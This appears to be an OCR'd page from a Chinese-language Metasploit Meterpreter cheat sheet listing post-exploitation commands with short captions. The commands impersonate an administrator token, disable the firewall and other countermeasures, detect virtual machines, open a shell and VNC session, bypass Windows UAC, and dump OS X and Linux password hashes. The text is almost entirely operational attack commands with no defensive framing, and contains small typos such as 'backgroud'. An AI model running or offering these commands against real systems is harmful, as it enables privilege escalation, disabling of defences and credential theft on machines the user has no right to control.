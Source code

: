 meterpreter > impersonate_token INAZSEURITY\\Adminstrator

查看目标主机上采取了哪些防护措施，列出帮助菜单，关闭防火墙以及其他我们发现的防护措施

meterpreter > run getcountermeasure

meterpreter > run getcountermeasure -h

meterpreter > run getcountermeasure -d -k

识别被控制的主机是否为虚拟机

meterpreter > run checkvm

在Meterpreter会话中使用shell

meterpreter > shell

获取目标主机的图形界面

meterpreter > run vnc

使正在运行的Meterpreter界面在后台运行

meterpreter > backgroud

绕过windows用户账户控制UAC机制

meterpreter > run post/windows/escalate/bypassuac

导出os-x系统口令哈希值

meterpreter > run post/osx/gather/hashdump

导出linux系统口令哈希值

meterpreter > run post/linux/gather/hashdump
